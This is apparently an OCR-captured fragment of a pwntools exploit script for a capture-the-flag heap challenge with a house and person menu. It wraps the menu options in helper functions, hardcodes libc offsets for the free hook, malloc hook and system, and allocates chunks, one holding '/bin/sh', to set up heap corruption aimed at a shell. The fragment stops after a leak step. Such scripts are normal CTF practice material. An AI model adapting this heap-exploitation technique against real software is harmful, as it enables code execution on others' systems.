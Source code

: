 ```py
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())
io = start()

def createhouse(name, size, desc):
	io.sendlineafter('>> ','1')
	io.sendafter('House : ',name)
	io.sendlineafter('of House : ',str(size))
	io.sendafter('description : ',desc)

def createperson(name,size,desc):
	io.sendlineafter('>> ','2')
	io.sendafter('Person :',name)
	io.sendlineafter('of Person : ',str(size))
	io.sendafter('details : ',desc)

def addperson(personidx,houseidx):
	io.sendlineafter('>> ','3')
	io.sendlineafter('number : ',str(personidx))
	io.sendlineafter('? : ',str(houseidx))

def removeperson(personidx,houseidx):
	io.sendlineafter('>> ','4')
	io.sendlineafter('? : ',str(houseidx))
	io.sendlineafter('number : ',str(personidx))

def viewhouse(houseidx):
	io.sendlineafter('>> ','5')
	io.sendlineafter('? : ',str(houseidx))

def viewperson(personidx, houseidx):
	io.sendlineafter('>> ','6')
	io.sendlineafter('? : ',str(houseidx))
	io.sendlineafter('number : ',str(personidx))

def party(houseidx):
	io.sendlineafter('>> ','7')
	io.sendlineafter('? : ',str(houseidx))

def destroy(houseidx):
	io.sendlineafter('>> ','8')
	io.sendlineafter('? : ',str(houseidx))

free_hook = 0x1e75a8
malloc_hook = 0x1e4c30
system = 0x52fd0

createhouse('A'*0x20,0x18,'HKHK')
for i in range(2):
	createperson('ZZZ',0x18,'HKHK')
createperson('/bin/sh\x00',0x18,'vvv')
for i in range(5):
	createperson('HKHK',0x18,'HKHK')
createperson('HKHK',0x418,'HKHK')
createperson('HKHK',0x38,'HKHK')
for i in range(10):
	addperson(i,0)
viewperson(8,0)
```
